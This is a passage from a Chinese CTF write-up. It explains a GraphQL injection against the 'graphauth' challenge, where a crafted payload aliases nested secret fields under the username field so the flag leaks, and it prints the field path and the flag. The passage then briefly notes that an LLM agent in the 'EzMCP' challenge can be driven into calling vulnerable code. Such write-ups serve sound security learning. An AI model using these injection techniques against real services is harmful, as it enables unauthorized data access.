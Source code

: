 因为网页会显示出登录用户名，因此把要查看的数据放在 username 别名之下就能看到了。剩下的事情就很简单了，从网页里解析出数据，由于这是 python 内置类型的 repr 字符串，所以使用 [`ast.literal_eval`](https://docs.python.org/zh-cn/3/library/ast.html#ast.literal_eval) 即可解析，当然用 `eval` 也是可以的。然后从 flag2 所在的字段开始，从叶子到根逐步查找是哪个类型的字段引用了包含 flag2 的类型。[查看完整代码](web-graphauth/flag2.py)

比如在写本题解时再次运行脚本读到的访问路径（反向）：

```python
field_names = ['flag2', 'secret_Pbdt', 'secret_QkZZ', 'secret_VY34', 'secret_FZgf', 'secret_byb6', 'secret_HFqo', 'secret_5wMo', 'secret']
```

然后拼成一个嵌套的查询即可：

```python
query_flag2 = "flag2"
for field_name in field_names[1:-1]:
    query_flag2 = f"{field_name} {{ {query_flag2} }}"

payload = """\
") {
login: secret {
  ok: __typename
  isAdmin: __typename
  username: @fieldnames@
}
foobar: #""".replace("@fieldnames@", query_flag2)
```

```json
{
  "secret_HFqo": {
    "secret_byb6": {
      "secret_FZgf": {
        "secret_VY34": {
          "secret_QkZZ": {
            "secret_Pbdt": {
              "flag2": "flag{eveRyOne_Can_See_yoUR_GRaphql_ScHema}"
            }
          }
        }
      }
    }
  }
}
```

## web-ezmcp
## EzMCP

这道题出得感觉稍微有点意义不明，因为完全不写 MCP server 也是完全可以解出来的，就像前面的[别样的人机大战](#misc-agent)一样操作就行。我也不是很熟悉 MCP，我猜如果真要让玩家写 MCP server 的话，可能不给玩家输入任意文字与大模型对话的能力比较合适。

因为 LLM 其实只是个输入文字、输出文字的纯计算黑箱，它本身没有与真实世界交互的能力，因此任何与世界交互的能力都是由代码赋予的，只要让 LLM 以合适的方式调用有问题的代码，即可达到目的，本质上和直接调用 api 没有多大差别，只是多了一层不那么可控的 LLM 翻译罢了。因此漏洞一定还是存在于代码中。
